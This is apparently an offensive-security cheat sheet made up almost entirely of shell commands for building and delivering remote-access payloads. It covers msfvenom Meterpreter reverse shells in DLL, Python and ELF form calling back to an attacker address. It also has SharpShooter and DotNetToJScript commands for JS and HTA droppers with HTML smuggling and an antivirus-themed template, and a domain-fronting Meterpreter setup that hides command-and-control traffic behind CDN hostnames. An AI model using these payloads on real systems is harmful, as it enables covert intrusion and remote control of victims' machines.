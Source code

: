 DLL (for rundll32)

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 -f dll -o data/exploit.dll
```

Python

```shell
msfvenom -p python/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 -f raw -o data/shell.py
```

ELF

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f elf -o /var/www/html/met.elf
```

DotNetToJscriptDirectly

```shell
DotNetToJScript.exe ExampleAssembly.dll --lang=VBScript --ver=v4 -o runner.vbs
```

JS through SharpShooter

```shell
python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

python SharpShooter.py --payload js --dotnetver 2 --scfile /var/www/html/payload.txt --output test --delivery web --web http://192.168.1.1/output/test.payload --smuggle --template mcafee --shellcode
```

HTA through SharpShooter

```shell
python2 SharpShooter.py --payload hta --rawscfile ~/sharpshooter.raw --dotnetver 2  --output test --stageless
```

Domain fronting meterpreter

```shell
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com LPORT=80 HttpHostHeader=cdn.azureedge.net -f exe > http-df.exe
```

```shell
set LHOST do.skype.com
set OverrideLHOST do.skype.com
set OverrideRequestHost true
set HttpHostHeader offensive-security.azureedge.net
run -j
```

---

## AMSI

---